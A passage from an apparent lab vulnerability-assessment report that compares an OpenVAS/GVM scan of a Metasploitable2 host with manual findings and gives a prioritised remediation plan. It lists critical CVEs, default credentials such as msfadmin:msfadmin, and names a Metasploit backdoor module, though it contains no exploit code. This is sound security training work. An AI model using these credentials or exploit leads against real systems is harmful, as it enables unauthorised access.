

### 4.1 Scan result summary

The scan task **"Metasploitable2 Scan"** ran from `Fri Nov 6 23:43:27 2026 UTC` to `Sat Nov 7 00:23:07 2026 UTC` (≈39 minutes) against `192.168.153.133`. Before filtering, the engine logged **633 results**. After GVM's default filter (QoD ≥ 70%, overrides off, Log/Debug/False-Positive levels excluded), **68 results** remained:

| Severity | Count |
|---|---|
| Critical | 11 |
| High | 11 |
| Medium | 40 |
| Low | 6 |
| **Total** | **68** |



The full exported GVM report (72 pages, all 68 results with NVT descriptions, CVSS vectors, references and solutions) is included in this repository at `gvm-report/gvm-scan-report.pdf`.

The eleven Critical-rated GVM findings, several of which the manual pass did not have time to reach, include:

| Port | NVT | CVSS |
|---|---|---|
| 80/tcp | TWiki < 4.2.4 Multiple XSS / Command Execution (CVE-2008-5304, CVE-2008-5305) | 10.0 |
| general/tcp | Operating System (Ubuntu 8.04) End of Life Detection | 10.0 |
| 3632/tcp | DistCC RCE Vulnerability (CVE-2004-2687) | 9.3 |
| 5900/tcp | VNC Brute Force Login | 9.0 |
| 513/tcp | rlogin Passwordless Login | 10.0 |
| 8787/tcp | Distributed Ruby (dRuby/DRb) Multiple RCE Vulnerabilities | 10.0 |
| 512/tcp | rexec service running (CVE-1999-0618) | 10.0 |
| 1524/tcp | Possible Backdoor: Ingreslock | 10.0 |
| 8009/tcp | Apache Tomcat AJP RCE — Ghostcat (CVE-2020-1938) | 9.8 |
| 5432/tcp | PostgreSQL Default Credentials | 9.0 |
| 3306/tcp | MySQL/MariaDB Default Credentials | 9.8 |

### 4.2 Where GVM agreed with the manual findings

- **Finding 2 (default credentials):** GVM's "FTP Brute Force Logins With Default Credentials Reporting" (High, CVSS 7.5) on both 21/tcp and 2121/tcp independently recovered `msfadmin:msfadmin`, plus `postgres:postgres`, `service:service` and `user:user` — the same account the manual pass confirmed from the login banner, found this time by active brute-forcing rather than by reading the banner.
- **Finding 3 (phpinfo.php):** GVM's "phpinfo() Output Reporting (HTTP)" (Medium, CVSS 5.3) on 80/tcp matches the manual finding exactly, down to the CVSS score.
- **Finding 4 (SMB):** GVM flagged "Samba 3.0.0 <= 3.0.25rc3 MS-RPC Remote Shell Command Execution Vulnerability" (Medium, CVSS 6.0) on 445/tcp — confirming the Samba version is vulnerable, though GVM's NVT reports a command-execution flaw rather than the specific writable-`tmp`-share misconfiguration the manual `smb-enum-shares` scan surfaced; the two findings are complementary, not identical.

### 4.3 Where GVM differed

- **GVM did not independently flag the vsftpd 2.3.4 backdoor (CVE-2011-2523).** A text search of all 68 filtered results and all 633 raw results for "CVE-2011-2523" or "vsftpd_234" returns nothing — the Critical, exploited finding that gave root in Section 3 Finding 1 is absent from GVM's output entirely. GVM's only port-21 results are the FTP default-credentials brute force (High) and "Anonymous FTP Login Reporting" / "FTP Unencrypted Cleartext Login" (both Medium). This is a meaningful gap: a scanner-only VA on this host would have missed the single most severe, actually-exploited vulnerability on the box.
- **GVM is far broader on sheer count.** 68 filtered findings (633 raw) versus 4 manually documented findings. The bulk of the extra volume is exactly what the handout predicts: TLS/SSL weaknesses (deprecated SSLv2/SSLv3/TLSv1.0, weak ciphers, FREAK, POODLE, LogJam — repeated near-identically across ports 25, 5432, 6697), SSH algorithm weaknesses (weak host keys, KEX, MAC, encryption), certificate issues, and End-of-Life OS/software detection.
- **GVM surfaced services the manual pass never reached** — DistCC RCE (3632/tcp), dRuby RCE (8787/tcp), rexec (512/tcp), rlogin (513/tcp), the Ingreslock backdoor (1524/tcp), Tomcat Ghostcat (8009/tcp), UnrealIRCd authentication spoofing and its own separate backdoor (6697/tcp), and PostgreSQL/MySQL default credentials (5432/tcp, 3306/tcp) — all rated Critical or High. In a time-boxed manual assessment these would be the next priorities after the vsftpd backdoor.

### 4.4 Analyst's conclusion

This matches the handout's point directly: **an automated scanner produces candidates, not findings; triage is the analyst's work.** GVM's strength here is breadth and consistency — it enumerated eleven Critical-rated exposures across the host in under 40 minutes of unattended scanning, including several (Ghostcat, DistCC, dRuby, Ingreslock) that a manual pass would need a dedicated research session per finding to reach. Its weakness is precision in the opposite direction from what might be expected: it is not that GVM over-reports low-value noise — most of its Medium/Low volume (SSL/TLS weaknesses, algorithm negotiation) is real, just lower-impact — it is that GVM's signature-based NVTs missed the specific, high-impact backdoor condition in vsftpd 2.3.4 that manual research and a targeted Metasploit module caught immediately. The two approaches are complementary rather than substitutable: GVM's sweep is the right first pass to establish the full attack surface and prioritise by volume and CVSS, while the manual, CVE-driven pass with exploitation is what proves actual impact and catches software-specific conditions a generic NVT signature does not cover. A real engagement needs both, in the order the handout prescribes.

---

## 5. Remediation Summary (priority order)

| Priority | Finding | Action |
|---|---|---|
| 1 — Immediate | vsftpd backdoor (CVE-2011-2523) | Upgrade/remove vsftpd 2.3.4 |
| 2 — Immediate | Default credentials across FTP/SSH/PostgreSQL/MySQL | Change `msfadmin`/`postgres`/`service`/`user` passwords; enforce password policy |
| 3 — Immediate | GVM Critical findings: DistCC (3632), dRuby (8787), rexec (512), rlogin (513), Ingreslock (1524), Tomcat Ghostcat (8009) | Disable or patch each legacy/debug service; these are not in scope for manual PoC in this report but are Critical-rated and should be remediated first |
| 4 — Current cycle | SMB null session / writable `tmp` share | Disable anonymous access; fix share permissions; patch Samba MS-RPC flaw |
| 5 — Current cycle | TLS/SSL weaknesses (SSLv2/v3, TLSv1.0/1.1, weak ciphers, expired/weak certs) on 25/tcp and 5432/tcp | Disable legacy protocol versions; reissue certificates with ≥2048-bit RSA and current signature algorithms |
| 6 — Maintenance window | Exposed phpinfo.php | Remove the file |

---

## 6. References

- CVE-2011-2523 — https://nvd.nist.gov/vuln/detail/CVE-2011-2523
- CVE-2020-1938 (Ghostcat) — https://nvd.nist.gov/vuln/detail/CVE-2020-1938
- CVE-2004-2687 (DistCC) — https://nvd.nist.gov/vuln/detail/CVE-2004-2687
- CWE-78, CWE-200, CWE-287, CWE-1392 — https://cwe.mitre.org/
- Metasploit module — https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/
- Full GVM/OpenVAS scan report — `gvm-report/gvm-scan-report.pdf` (this repository)

## Appendix — Raw Evidence Index

All screenshots referenced above are in `images/` (this folder) and `../s06-scanning/images/` (Day 2 scan evidence, reused here as it was taken against the same target — carry that folder over when pushing this repository). The full 72-page exported GVM scan report is in `gvm-report/gvm-scan-report.pdf`.
